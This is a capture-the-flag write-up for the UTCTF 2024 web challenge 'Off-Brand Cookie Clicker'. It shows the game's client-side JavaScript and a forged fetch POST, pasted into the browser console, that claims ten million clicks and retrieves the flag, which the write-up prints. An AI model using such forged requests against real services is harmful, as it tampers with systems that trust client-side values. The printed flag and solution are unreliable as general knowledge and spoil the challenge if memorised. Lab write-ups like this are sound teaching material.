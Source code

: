 ```yaml
---
title: "Off-Brand Cookie Clicker"
description: "I tried to make my own version of cookie clicker, without all of the extra fluff. Can you beat my highscore?"
pubDate: 2024-04-01
ctf: "UTCTF 2024"
category: "web"
author: "sealldev"
section: "CTFs"
image: "images/24-utctf/icon.png"
---
```


The website looks like this:

![cookie.png](images/24-utctf/cookie.png)

Now, I'm not clicking to 10 million cookies, so let's look at how it checks for this.

In the `head` there is a `script` that has the following:
```js
document.addEventListener('DOMContentLoaded', function() {
    var count = parseInt(localStorage.getItem('count')) || 0;
    var cookieImage = document.getElementById('cookieImage');
    var display = document.getElementById('clickCount');

    display.textContent = count;

    cookieImage.addEventListener('click', function() {
        count++;
        display.textContent = count;
        localStorage.setItem('count', count);

        if (count >= 10000000) {
            fetch('/click', {
                method: 'POST',
                headers: {
                    'Content-Type': 'application/x-www-form-urlencoded'
                },
                body: 'count=' + count
            })
            .then(response => response.json())
            .then(data => {
                alert(data.flag);
            });
        }
    });
});
```

Let's just forge this request. So I copy the following portion into the console.
```js
fetch('/click', {
    method: 'POST',
    headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: 'count=10000000'
})
.then(response => response.json())
.then(data => {
    alert(data.flag);
});
```

`Wow, you beat me. Congrats! utflag{y0u_cl1ck_pr3tty_f4st}`

Flag: `utflag{y0u_cl1ck_pr3tty_f4st}`